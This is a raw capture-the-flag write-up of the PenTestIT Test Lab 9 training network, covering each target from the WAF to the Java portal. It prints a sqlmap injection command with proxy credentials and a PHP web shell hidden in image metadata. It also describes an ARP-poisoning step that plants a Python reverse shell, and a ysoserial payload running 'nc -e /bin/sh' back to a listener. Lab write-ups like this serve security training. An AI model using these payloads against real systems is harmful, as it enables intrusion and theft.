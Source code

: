 ```yaml
---
title: PenTestIT Test Lab 9 WriteUp
categories: ['CTF WriteUps']
tags: 'Test Lab by PenTestIT'
---
```


# PenTestIT Test Lab 9 WriteUp

# Introduction
So, Test Lab 9 was probably the first real CTF/Hacking lab that I participated in. With no expectation and not much knowledge I decided to give it a try. In the end I got all tokens, with a lot of help from people from the telegram chat. This is my "raw" writeup, that I wrote back then. To be honest I dont wanna spend the time to brush this up so im just gonna post it like it is. Have fun!

# WriteUp
## 1. Bypass WAF
Heartbleed 192.168.101.8:443

found /var/www/html/_old_backup_2010/old_proxy_users

path https://192.168.101.8/_old_backup_2010/old_proxy_users

table contains users to bypass proxy and -> token found

md5 (apr) hashes, with hashcat dehashed


## 2. Mainsite
First use the proxy and change hosts file
use this exploit https://www.exploit-db.com/exploits/37822/
using sqlmap to dump db: sqlmap -u http://172.16.0.5/wp-content/plugins/wp-symposium/ajax/forum_functions.php --data="action=getTopic&topic_id=1 AND SLEEP(5)&group_id=0" --dump-all --proxy http://192.168.101.8:3128 --proxy-cred r.lampman:shalom --output-dir Desktop/dbdump/ -D tl9_mainsite
found wordpress user in table wp_users (maybe use for later)
Mainsite token found in wp_token table :)


## 3. SSH
Now we can attack SSH since port 22 is open on 192.168.101.8
download this tool to enumerate possible users https://github.com/c0r3dump3d/osueta
valid users found, use one to connect ssh daemon@192.168.101.8
word krakenwaffe seems weird... google that. -> found twitter of luka safonov... scroll down twitter and found https://github.com/krakenwaffe/eyelog
in the code the password is set to "daypass" + day of month + hours from midnight
login with daemon and password and were in!^
check users dir /root/home -> 3 users found
login with one of the 3 and the same pw as above
dir and ls show nothing, do ls -al -> directory .ssh seems weird
enter directory with cd .ssh -> token found


## 4. Cisco
if were inside the ssh tunnel we can contact the cisco firewall/router.
so lets nmap it. telnet is open!
telnet 192.168.2.100
login page... trying default password cisco and BAM inside -> token found


## 5. ftp
try connect to ftp with cmd "ftp 172.16.0.4".
login as anonymous and no password works
dir and ls show subdirectory called dist
check file and see that its the sourcecode
download the sourcecode and look at it
found something in /src/help.c
help command "help CYBEAR32C" is new
command doesnt work...
access ftp via nc or telnet
new command works, got admin permission.. browsing dirs -> token found


## 6. Photo
Portscan and see that Webport is open
Webpage open, able to upload file
using this guide: http://hackers2devnull.blogspot.ch/2013/05/how-to-shell-server-via-image-upload.html
create small gif picture.
edit the pic in exiftool and add php code to comment tag: <?if($_GET['r0ng']){echo"<pre>".shell_exec($_GET["r0ng"]);}?>
trying to upload the file with all php executable extensions: php, php2, php3, php4, php5, pht and phtml
file as pht gets uploaded
192.168.0.6/upload/r0ng.pht?r0ng=dir to inject php code and shows dir.
weird subfolder found with txt file in it -> cat textfile -> token found :)


## 7. NAS
Nas has scsi port open
try login via telnet and no user/pass is required
create ssh tunnel on local port: ssh -L 7070:192.168.0.3:3260 -l d.nash 192.168.101.8
install open-iscsi
discover iscsi: iscsiadm -m discovery -t st -p 192.168.0.3
edit iscsi node file to use 127.0.0.1:7070 (for ssh tunnel)
login to iscsi: iscsiadm -m node -T iqn.2016-05.ru.pentestit:storage.lun0 --login
mount iscsi to drive: mount /dev/sdb1 /mnt/iscsi
check the folder and found a 2GB .vmdk file
install xpartx to mount it
mount the vmdk file: kpartx -a /mnt/iscsi/test121-flat.vmdk
browsing the files i notice its windows xp... maybe we can get a password from the hashes in SAM
using ophcrack with xp small list and password of user token_nas_token is tokenXXXXXX --> token found
also password for user d.rector found -> works for webmail and term2!


## 8. Mail
We got ourselfs a user from NAS so lets login with it
send mail with .docx attachment -> mail comes back saying "can only accept microsoft office documents if theyre sent from lampma" -> token found


## 9. Terminal2
Portscan shows that rdp port is open
using proxychain and rdesktop i access the rdp session
login with d.rector and pw
token file on desktop -> token found :D


## 10. Dev
Dev is only accessible from terminal2
Tool on C:\ "interceptor-ng" 
scan for hosts in the net, add dev to the nat
use same gw as term 2
Doing man in the middle (ssh) with arp poisoning -> dev logs in to ftp and downloads test.py script from folder upload\test_scripts
user m.barry with password for ftp found
login to ftp as mbarry, create hidden subfolder (ex. .bilal) with 6 chars
copy test.py, insert pything reverse shell
start listener on reverse-shell port
use change data from tool to change upload for .bilal -> our file gets downloaded and executed on dev
shell opens, browse dirs -> token found 


## 11. Portal
we can login using d.rector, its a vacation list
using burp, see that server uses java serialization and "userdata" string is base64 encoded.
serialization is abusable, download code from github ysoserial and compile it with maven
serialize our nc backdoor with it: java -jar ysoserial-0.0.5-all.jar CommonsCollections5 'nc -e /bin/sh 172.16.0.2 1235' > payload.out
encode it to base64: cat payload.out | base64 -w 0 > payload.out.b64
open listener on 172.16.0.2 1235
login to portal using d.rector, intercept request and changing userdata for payload.out.b64
we get shell open, browse some dirs -> token found